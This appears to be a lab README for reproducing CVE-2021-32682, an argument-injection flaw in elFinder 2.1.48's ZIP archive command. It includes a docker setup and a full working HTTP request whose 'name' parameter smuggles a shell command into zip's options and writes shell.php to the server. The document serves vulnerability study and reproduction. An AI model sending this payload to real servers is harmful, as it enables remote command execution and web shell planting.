



# elFinder ZIP Arguments Injection Leads to Commands Injection (CVE-2021-32682)

[中文版本(Chinese version)](README.zh-cn.md)

elFinder is an open-source file manager for web, written in JavaScript using jQuery UI.

There is a arguments injection vulnerability found in the elFinder 2.1.48 and before. This vulnerability can allow an attacker to execute arbitrary commands on the server hosting the elFinder PHP connector, even with minimal configuration. The issues were patched in version 2.1.59. As a workaround, ensure the connector is not exposed without authentication.

References:

- <https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerabilities>
- <https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt>
- <https://xz.aliyun.com/t/10739>

## Vulnerability Environment

Execute following command to start a elFinder 2.1.48:

```
docker-compose up -d
```

After the server is started, you can see the main page of elFinder at `http://your-ip:8080`.

## Vulnerability Reproduce

Firstly, you should prepare 2 files for this vulnerability flow.

Create a plain text file named `1.txt`:



Archive this file in the right-click menu to ZIP format, and modify this archived file name to `2.zip`:



`1.txt` and `2.zip` are ready here:


Then, send the following request to execute arbitrary commands:

```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close


```

In this request, you can see 3 important parameters:

- `name`, its value is equal to `-TvTT=id>shell.php # a.zip`, you can modify the `id>shell.php` to arbitrary commands
- `targets[0]`, its value is equal to `l1_MS50eHQ`. `l1` means the first storage volume, `MS50eHQ` is the base64 encoded string of `1.txt`
- `targets[1]`, its value is equal to `l1_Mi56aXA`. `l1` means the first storage volume, `Mi56aXA` is the base64 encoded string of `2.zip`

Although this request responeds to an error message, our command has been executed and `shell.php` has been written to `http://your-ip:8080/files/shell.php`:


